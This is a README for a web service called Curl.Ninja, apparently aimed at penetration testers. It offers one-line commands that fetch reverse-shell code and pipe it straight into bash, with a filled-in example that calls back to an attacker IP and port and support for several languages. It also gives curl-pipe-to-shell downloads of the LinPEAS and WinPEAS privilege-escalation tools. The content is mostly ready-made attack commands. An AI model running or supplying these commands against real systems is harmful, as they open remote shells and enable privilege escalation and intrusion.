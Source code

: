 # Curl.Ninja
Shellcode and tools always a `curl` away.

## 🐚 Shellcode
Generate and run shellcode one-liners:
```shell
curl https://curl.ninja/shell/LANGUAGE/IP/PORT | bash
```

### Example
```shell
curl https://curl.ninja/shell/bash/10.10.10.1/6969 | bash
```

### Language Support
Thanks to [pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) for the language support:
 - [x] *Bash* via `/bash/`
 - [x] *Java* via `/java/`
 - [x] *Netcat* via `/nc/`
 - [x] *PERL* via `/perl/`
 - [x] *PHP* via `/php/`
 - [x] *Python* via `/python/`
 - [x] *Ruby* via `/ruby/`

## 🛠 Tool
Easily download tools from GitHub:
```shell
curl https://curl.ninja/TOOLNAME | sh | sh
curl https://curl.ninja/TOOLNAME | sh > FILENAME
```

### Examples
```shell
curl https://curl.ninja/linpeas | sh | sh
curl https://curl.ninja/winpeas | sh > wp.exe
```

### Available Tools
 - [x] [LinPEAS.sh](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) via `/linpeas`
 - [x] [WinPEASx84.exe](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS) via `/winpeas`
 - [x] WinPEASx64.exe via `winpeas64`

 If you notice any favorite open source tools are missing, open an [issue](https://github.com/Hack-Church/curl-ninja/issues)
